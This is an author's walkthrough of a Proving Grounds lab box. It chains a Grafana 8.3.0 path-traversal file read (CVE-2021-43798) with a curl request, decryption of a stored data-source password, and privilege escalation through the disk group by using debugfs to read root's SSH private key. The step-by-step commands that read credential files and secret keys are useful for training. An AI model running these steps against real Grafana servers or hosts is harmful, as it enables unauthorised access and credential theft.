

* I have submitted a box to Offensive Security for Proving Ground which was released on March 2022. Here is the detailed walkthrough.

## Box Information:

| Name          | OS | Points      | Difficulty | Author | Released |
| ----------- | ----- | ----------- | ----------- | ----------- | ----------- |
| Fanatastic | Linux |10 |	Easy | [0xdln](https://twitter.com/0xdln) |	March 2022 |

## Enumeration

We start the enumeration process with a simple Nmap scan:

```
┌──(kali㉿kali)-[~]
└─$ nmap 192.168.146.150
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-28 14:10 IST
Nmap scan report for 192.168.146.150
Host is up (0.0014s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  ppp
9090/tcp open  zeus-admin

Nmap done: 1 IP address (1 host up) scanned in 0.17 seconds
```

We find ports `22`, `3000`, `9090` are open.

After visiting ports 3000 there is a grafana instance ( of version v8.3.0 )



And on port 9090 there is a prometheus instance running,which doesn't seem to be interesting.

## Exploitation

After googling for vulnerabilities in grafana v8.3.0 there is an exploit db link for a directory traversal and Arbitrary File Read

https://www.exploit-db.com/exploits/50581

Using the python script it was possible to read the `/etc/grafana/grafana.ini` configuration file.

```
python3 exploit.py -H http://192.168.146.142:3000
Read file > /etc/grafana/grafana.ini
```

After checking the configuration file there are credentials for the admin.

```
;admin_user = admin
# default admin password, can be changed before first start of grafana, or in profile settings
;admin_password = admin
```

After trying those credentials, they turned out invalid. These credentials are default credentials for grafana.

After searching for exploits in github, i stumbled upon https://github.com/jas502n/Grafana-CVE-2021-43798 where it is mentioned that we can query for the grafana database ( i.e /var/lib/grafana/grafana.db )

So using curl download the grafana.db file

```
curl --path-as-is http://192.168.146.142:3000/public/plugins/alertGroups/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
```

Going through the database there is `data_source` table which contains basic_auth_user and secure_json_data which has basicAuthPassword

```
basic_auth_user = sysadmin
basicAuthPassword = YUVmMzI1V2tnnPyo8o9LU3AFB/eWCSHdwwrOSyzEuj8u8dInddOHifuDUg==
```

- But the password is encrypted. To decrypt the password we need a secret key according to https://github.com/jas502n/Grafana-CVE-2021-43798

In the grafana configuration file ( i.e /etc/grafana/grafana.ini )

- The secret key in the configuration file is

`SW2YcwTIb9zpOOhoPsMm`

- Now decrypt the data source password using the script below:

https://github.com/jas502n/Grafana-CVE-2021-43798/blob/main/AESDecrypt.go

> Note: At the time of decrypting don't forget to change the secret key and DataSourcePassword which you gathered in your enumeration phase

- Change secret key in Line 167
- Change DataSourcePassword in Line 168

Now run the go file to decrypt 

> Note: You might get some errors while running the script, installing the required modules and go properly can resolve the issues)

`go run <file-name>`

```
┌──(kali㉿kali)-[~]
└─$  go run decrypt.go
[*] grafanaIni_secretKey= SW2YcwTIb9zpOOhoPsMm
[*] DataSourcePassword= YUVmMzI1V2tnnPyo8o9LU3AFB/eWCSHdwwrOSyzEuj8u8dInddOHifuDUg==
[*] plainText= SuperSecureP@ssw0rd
```

- Since the user inside the datasource is sysadmin and we have the decrypted password now, let us check whether there has been reuse of password

`ssh sysadmin@192.168.146.142`

## Escalation

- As an initial step, let us find out the user and group names of the user

```bash
$ id
uid=1002(sysadmin) gid=1002(sysadmin) groups=1002(sysadmin),6(disk)
```

- We notice the disk group, Let us try privilege escalation throgh disk group

- Using the `df` command we can get the information related to file systems

- We exploit the disk group privileges to read root user’s private SSH key

```bash
$ df -h
Filesystem      Size  Used Avail Use% Mounted on
udev            1.9G     0  1.9G   0% /dev
tmpfs           390M  1.9M  388M   1% /run
/dev/sda5        20G  7.8G   11G  43% /
tmpfs           2.0G     0  2.0G   0% /dev/shm
tmpfs           5.0M  4.0K  5.0M   1% /run/lock
tmpfs           2.0G     0  2.0G   0% /sys/fs/cgroup
/dev/loop0       56M   56M     0 100% /snap/core18/2128
/dev/loop1       66M   66M     0 100% /snap/gtk-common-themes/1515
/dev/loop2       51M   51M     0 100% /snap/snap-store/547
/dev/loop3       33M   33M     0 100% /snap/snapd/12704
/dev/loop4      219M  219M     0 100% /snap/gnome-3-34-1804/72
/dev/sda1       511M  4.0K  511M   1% /boot/efi
tmpfs           390M   24K  390M   1% /run/user/1000
tmpfs           390M  8.0K  390M   1% /run/user/1002
```

Use debugfs to read the files in the partition

> DebugFS is a simple-to-use RAM-based file system specially designed for debugging purposes. It can be used to access files within a given partition

```
$ debugfs /dev/sda5
debugfs:  cd /root/.ssh
debugfs:  cat id_rsa
```

- Since we can read the contents inside the root directory, read root private SSH key
- After obtaining the root private SSH key, we’ll login to the system via SSH as root

```
ssh -i id_rsa root@localhost
```
### References

* [Grafana 8.3.0 - Directory Traversal and Arbitrary File Read](https://www.exploit-db.com/exploits/50581)
* [jas502n/Grafana-CVE-2021-43798](https://github.com/jas502n/Grafana-CVE-2021-43798)
* [Interesting Groups - Linux PE - HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe)
